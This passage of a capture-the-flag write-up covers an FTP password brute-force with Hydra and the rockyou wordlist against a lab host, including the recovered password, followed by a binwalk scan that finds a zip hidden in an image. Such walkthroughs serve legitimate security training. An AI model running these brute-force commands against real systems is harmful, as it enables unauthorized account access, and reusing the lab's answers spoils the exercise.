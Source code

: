 Now that we have a username, we can try brute-forcing passwords for SSH or FTP. As the next question asks for FTP, lets try it out first.

#### Hail Hydra:

WE use hydra for brute-forcing FTP password with username **chris** and passwords from **rockyou** wordlist. (Note: By default rockyou wordlist is located in ```/usr/share/wordlists```)
```
hydra -l chris -P ~/rockyou.txt 10.10.129.10 -v ftp

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-12 21:57:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.129.10:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.129.10   login: chris   password: crystal
[STATUS] attack finished for 10.10.129.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-12 21:58:17

```

With this we have found the FTP passwor for **chris**. Lets login!

#### FTP login

We login to FTP and find three files: cute-alien.jpg, cutie.png, and To_agentJ.txt. Lets download them all to our local machine.

The text file ```To_agentJ.txt``` has the following:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

It gives us a hint that something is stored in the "fake pictures".


#### Binwalk  
  
  
Lets inspect the pictures with binwalk: 
   
```
binwalk cutie.png     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```
